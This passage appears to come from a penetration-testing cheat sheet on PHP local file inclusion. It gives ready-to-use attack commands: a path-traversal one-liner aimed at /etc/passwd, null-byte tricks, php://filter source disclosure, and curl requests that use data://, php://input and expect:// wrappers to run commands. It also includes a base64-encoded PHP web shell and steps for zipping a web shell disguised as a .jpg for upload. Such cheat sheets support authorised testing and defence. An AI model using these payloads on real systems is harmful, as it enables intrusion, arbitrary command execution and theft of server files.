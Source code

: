   -  PHP version < 5.4

     - Path truncation: Reaching the 4096 character limitation, the appended extension (`.php`) would be truncated:

       ```bash
       echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done
       ```

     - Null byte injection: add a null byte (`%00`) at the end

- **Source Code Disclosure (PHP)**

  - When a parameters allow you to execute a php file, you can use it to display the source code by using a PHP filter

    ```
    php://filter/read=convert.base64-encode/resource=[FILE_TO_READ]
    ```

- **PHP code execution**

  - Check if `allow_url_include` is enabled or `expect` extension in installed

    - Apache: `/etc/php/[PHP VERSION]/apache2/php.ini`
    - Nginx: `/etc/php/[PHP VERSION]/fpm/php.ini`

  - If `allow_url_include`:

    - *Data* wrapper: includes code using PHP web shell encoded in base64

      ```bash
      curl -s 'http://<URL>?PARAM=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id'
      ```

    - *Input* wrapper: external input as POST parameter

      ```bash
      curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<URL>?[PARAM]=php://input&cmd=id"
      ```

  - If `expect` is installed:

    - *Expect* wrapper: run commands in URL 

      ```bash
      curl -s "http://<URL>/?[PARAM]=expect://id"
      ```

  - If `zip wrapper` is enabled and **images** can be uploaded:

    1. Create and zip a web shell

       ```bash
       echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
       ```

    2. Upload `shell.jpg`

    3. Include it using the zip wrapper (check upload location)
